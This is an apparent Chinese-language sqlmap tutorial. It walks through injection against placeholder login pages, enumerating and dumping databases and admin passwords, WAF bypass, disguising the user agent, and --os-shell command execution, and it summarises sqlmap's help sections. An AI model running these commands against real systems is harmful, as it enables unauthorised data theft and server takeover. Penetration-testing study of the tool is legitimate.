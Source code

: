 Sqlmap
======

注入分法不同，种类不同，来个简单的分类：<br/>

        1.get型:        sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx"
        2.post型:       sqlmap -u "http://xxx.xx.xxx/xx.xxx" --data="xxxx=xxxx&xxxx=xxx"
        3.cookie类注入: sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx" --cookie="xxx=xxx&xxx=xxx" --level=2


需要数据库好：<br/>

        --dbs
得到数据库名称xxx，需要表： <br/>

        -D xxx --tables
得到表名xxxx，需要段：<br/>

        -D xxx -T xxxx --columns
得到段内有admin，password，需要值：<br/>

        -D xxx -T xxxx -C "admin,password" --dump

那么我们来理解一下，-D -T -C 是干吗的，当然就是知道其名称，指定使用它。<br/>
--dbs --tables --columns 是干吗的，当然就是不知道名称，列出来呗<br/>
--dump 那自然就是字面意思，类似于导出数据的行为<br/>
其实注入有了上面这几个命令，妥妥的够用了，不过还需要绕waf：<br/>

        --tamper=""
注入被识别出来是工具，断开咋办：<br/>

        --user-agent=""


好，跑数据库就是这么简单，于是呢来一个稍微有点干货的例子：<br/>

<p>http://www.xxx.com/login.asp有post注入，我想日了,但是我不想出去拷贝post数据，很麻烦，我想让sqlmap自动跑post注入</p>

        sqlmap -u "http://www.xxx.com/login.asp" --forms
很好，上面的命令成功的帮我跑了post注入，并且找到了post的注入点jjj=123，于是我用的命令看看数据库<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj --dbs
顺便看看当前用户是不是dba<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj --is-dba
        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -a 
用了上面的命令 -a能得到什么呢：自己去看帮助吧。<br/>
帮你筛选了一下，-a下面的那些命令是用来看用户，看主机，看权限的。<br/>
我发现权限还是挺高的，同时呢，我跑出来了数据库名称kkk<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -D kkk --tables
同时我找到了网站路径，然后我就又一次找到了sqlmap的牛逼的--os-xx系列命令，可以执行系统命令，同时还发现了牛逼的xpcmdshell<br/> 

        --os-shell
以及很多牛逼的文件操作命令<br/>

        --file-xx 
这些命令在需要用的时候使用就是了，会给你带来意想不到的惊喜<br/>
与此同时，我发现tables里面没有我想要的东西，我也找不到合适的内容，咋办呢，心一横，我决定把所有的数据库内容跑出来自己找，<br/>
于是我这么做：<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -D kkk --dump-all
然后牛逼的sqlmap就开始跑啊跑，然后紧接着我的蛋就碎了，尼玛，sqlmap一会就问你一次要不要破解密码<br/>
，要不要这个，要不要那个，我和我的小朋友们都想擦你妹夫，功夫不负有心人，我又看见了一个命令 <br/>

        --batch 
可以自动选择sqlmap默认选项，于是，我可以和我的小朋友们玩耍去了，再也不用看着sqlmap拖库了。<br/>



总结下来，帮助文档还是很重要的，多看看，总会有些收获：<br/>
为了避免各位看英文看到吐，大概总结下：<br/>
```
* Target:       字面意思，目标，那么就是确定目标的
* Request:      字面意思，请求，就是定义请求内容的，比如post数据，http头，cookie注入，http头污染等等
* Optimization：字面意思，调节性能，等等
* Injection:    字面意思，注入的设置内容基本在这里，比如指定注入点，指定db，指定系统，等等
* Detection:    基本就是用在确认注入范围，寻找注入点区域，这些
* Technique:    基本用在确定注入手段，以及攻击方式
* Fingerprint:  基本用在指纹识别，用的很少
* Enumeration:  枚举信息，主要用在注入中，很重要，很常用
* Brute force:  用来爆破，其实主要是枚举tables columns用的
* User-defined function injection:      现在只有udf提权，以及指定一些自己定义的sqlmap脚本用，高端使用，求大牛指点
* File system access:                   主要是文件读取，文件写入
* Operating system access:              主要用在对系统操作，例如os-shell 以及 后续的连接metasploit 实现后渗透攻击
* windows registry access:              基本就是注册表操作了
* General:                              字面意思，综合的内容，一些特殊的功能实现，我在这里找到了crawl batch这些非常好用的参数
* Miscellaneous:                        目测高端应用，还没怎么用过，求大神指教
```
